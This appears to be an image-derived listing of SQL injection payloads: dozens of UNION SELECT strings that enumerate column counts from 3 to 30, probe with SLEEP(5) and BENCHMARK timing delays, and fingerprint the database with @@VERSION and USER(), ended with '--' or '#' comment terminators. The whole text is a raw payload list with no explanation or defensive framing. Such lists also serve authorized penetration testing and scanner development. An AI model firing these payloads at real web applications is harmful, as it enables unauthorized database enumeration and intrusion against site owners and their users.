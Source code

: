 ```
 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
 UNION SELECT @@VERSION,SLEEP(5),3
 UNION SELECT @@VERSION,SLEEP(5),USER(),4
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
 UNION SELECT @@VERSION,SLEEP(5),"'3
 UNION SELECT @@VERSION,SLEEP(5),"'3'"#
 UNION SELECT @@VERSION,SLEEP(5),USER(),4#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#
 UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#
```
